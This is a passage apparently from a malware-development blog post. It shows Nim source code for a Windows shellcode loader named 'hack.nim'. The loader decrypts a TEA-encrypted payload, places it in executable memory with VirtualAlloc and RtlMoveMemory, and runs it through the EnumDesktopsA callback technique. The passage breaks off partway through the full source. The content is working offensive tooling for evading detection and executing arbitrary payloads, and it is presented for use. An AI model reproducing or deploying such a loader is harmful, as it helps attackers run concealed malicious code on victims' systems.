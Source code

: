 ```nim
    var mismatchPos = -1
    for i in 0..<min(decryptedBytes.len, data.len):
      if decryptedBytes[i] != data[i]:
        mismatchPos = i
        break
    if mismatchPos >= 0:
      echo "first mismatch at byte: ", mismatchPos
    else:
      echo "length mismatch: original ", data.len, " bytes, decrypted ", decryptedBytes.len, " bytes"

  let mem = VirtualAlloc(NULL, cast[SIZE_T](decryptedBytes.len), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
  RtlMoveMemory(mem, unsafeAddr decryptedBytes[0], cast[SIZE_T](decryptedBytes.len))
  let payloadProc = cast[DESKTOPENUMPROCA](mem)
  discard EnumDesktopsA(GetProcessWindowStation(), payloadProc, 0)
```

As you can see, execution technique used `EnumDesktopsA` as usually.    

Full source code of this looks like this `hack.nim`:     

```nim
import winim
import strformat

type
  DESKTOPENUMPROCA = proc(lpszDesktop: LPSTR, lParam: LPARAM): WINBOOL {.stdcall.}

# TEA encryption and decryption
proc encrypt(v: var array[2, uint32], key: array[4, uint32]) =
  var sum = 0u32
  var delta = 0x9e3779b9'u32
  for _ in 0 ..< 32:  # 32 rounds of encryption
    sum += delta
    v[0] += ((v[1] shl 4) + key[0]) xor (v[1] + sum) xor ((v[1] shr 5) + key[1])
    v[1] += ((v[0] shl 4) + key[2]) xor (v[0] + sum) xor ((v[0] shr 5) + key[3])

proc decrypt(v: var array[2, uint32], key: array[4, uint32]) =
  var sum = 0xC6EF3720'u32  # inverse of delta
  var delta = 0x9e3779b9'u32
  for _ in 0 ..< 32:  # 32 rounds of decryption
    v[1] -= ((v[0] shl 4) + key[2]) xor (v[0] + sum) xor ((v[0] shr 5) + key[3])
    v[0] -= ((v[1] shl 4) + key[0]) xor (v[1] + sum) xor ((v[1] shr 5) + key[1])
    sum -= delta

# padding function to make the data length a multiple of 8 bytes
proc padData(data: seq[byte], blockSize: int): seq[byte] =
  let padding = blockSize - (data.len mod blockSize)
  if padding == blockSize:  # No padding needed
    return data
  result = data & newSeq[byte](padding)
  for i in 0..<padding:
    result[data.len + i] = byte(padding)  # PKCS#7 style padding

proc unpadData(data: seq[byte]): seq[byte] =
  if data.len == 0:
    return data
  let padding = int(data[^1])
  if padding > data.len:
    return data  # invalid padding, return as-is
  result = data[0 ..< data.len - padding]

proc bytesToUint32(data: seq[byte]): seq[array[2, uint32]] =
```
